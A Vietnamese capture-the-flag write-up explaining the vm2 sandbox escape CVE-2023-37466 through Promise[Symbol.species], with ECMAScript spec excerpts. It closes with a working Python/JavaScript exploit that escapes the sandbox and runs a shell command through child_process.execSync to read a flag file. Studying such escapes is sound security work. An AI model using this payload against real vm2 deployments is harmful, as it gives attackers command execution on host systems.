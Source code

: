 ```yaml
---
title: WEB - EHC Caculator
---
```


Lỗi: CVE-2023-37466
Cách làm: Dựa trên poc khá hay của leesh3288: Sandbox Escape in vm2@3.9.19 via `Promise[@@species]` · GitHub

Dựa vào method Promise[Symbol.species] từ lớp cha, ta hoàn toàn có lấy được các constructor được dùng để xây dựng lên
giá trị trả về của Promise

Dựa vào đó, ta hoàn toàn có thể viết lại hàm constructor của promise (tương tự như prototype pollute) từ đó có thể truy
cập vào executor và viết lại handler khi promise được resolve hoặc reject và set giá trị cho hai biến
resultCapability.[[Resolve]] and resultCapability.[[Reject]].

Biến resultCapability.[[Reject]] được sử dụng vào 27.2.5.4.1 PerformPromiseThen trong trường hợp bị reject

7. Let fulfillReaction be the PromiseReaction { [[Capability]]: resultCapability, [[Type]]: Fulfill, [[Handler]]:
   onFulfilledJobCallback }.
8. Let rejectReaction be the PromiseReaction { [[Capability]]: resultCapability, [[Type]]: Reject, [[Handler]]:
   onRejectedJobCallback }.
9. If promise.[[PromiseState]] is pending, then
   a. Append fulfillReaction as the last element of the List that is promise.[[PromiseFulfillReactions]].
   b. Append rejectReaction as the last element of the List that is promise.[[PromiseRejectReactions]].
10. Else if promise.[[PromiseState]] is fulfilled, then
    a. Let value be promise.[[PromiseResult]].
    b. Let fulfillJob be NewPromiseReactionJob(fulfillReaction, value).
    c. Perform HostEnqueuePromiseJob(fulfillJob.[[Job]], fulfillJob.[[Realm]]).
11. Else,
    a. Assert: The value of promise.[[PromiseState]] is rejected.
    b. Let reason be promise.[[PromiseResult]].
    c. If promise.[[PromiseIsHandled]] is false, perform HostPromiseRejectionTracker(promise, "handle").
    d. Let rejectJob be NewPromiseReactionJob(rejectReaction, reason).
    e. Perform HostEnqueuePromiseJob(rejectJob.[[Job]], rejectJob.[[Realm]]).

Khi bị reject PerforPromiseThen sẽ tạo thêm một 27.2.2.1 NewPromiseReactionJob ( reaction, argument )
mới với promiseCapability.[[Reject]] mà attacker đang kiểm soát

1. Let job be a new Job Abstract Closure with no parameters that captures reaction and argument and performs the
   following steps when called:
   a. Let promiseCapability be reaction.[[Capability]].
   b. Let type be reaction.[[Type]].
   c. Let handler be reaction.[[Handler]].
   d. **If handler is empty, then**
   i. If type is Fulfill, let handlerResult be NormalCompletion(argument).
   ii. Else,
    1. Assert: type is Reject.
    2. **Let handlerResult be ThrowCompletion(argument).**
       e. Else, let handlerResult be Completion(HostCallJobCallback(handler, undefined, « argument »)).
       f. If promiseCapability is undefined, then
       i. Assert: handlerResult is not an abrupt completion.
       ii. Return empty.
       g. Assert: promiseCapability is a PromiseCapability Record.
       h. **If handlerResult is an abrupt completion, then**
       i. **Return ? Call(promiseCapability.[[Reject]], undefined, « handlerResult.[[Value]] »).**
       i. Else,
       i. Return ? Call(promiseCapability.[[Resolve]], undefined, « handlerResult.[[Value]] »).

Thứ chúng ta muốn ở đây là ThrowCompletion, khi trương trình không thể fullfill được vì gặp lỗi, ngay lập hàm sẽ throw
ra lỗi để người dùng catch, mà ở đây chúng ta đã kiểm soát thành công được hàm promiseCapability.[[Reject]] nên chúng ta
hoàn toàn có thể dùng hàm này để thoát khỏi jail và chạy code trên môi trường thật.

Tận dụng lại exploit trên, ta có thể viết lại làm sao mà trương trình chạy một function trước khi return về và thoát
khỏi jail.

Exploit:

```python
import httpx

URL = "http://127.0.0.1:36145"
calc = """(function() {
    async function fn() {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
    var p = fn();
    p.constructor = {
        [Symbol.species]: class FakePromise {
            constructor(executor) {
                executor(
                    (x) => x,
                    (err) => { err.constructor.constructor('return process')().mainModule.require('child_process').execSync('cat /flag > static/index.html'); }
                )
            }
        }
    };
    p.then();
})()
"""

req = httpx.post(f"{URL}/calc", data={"calc": ''.join(calc.split("\n"))})
print(req.text)
```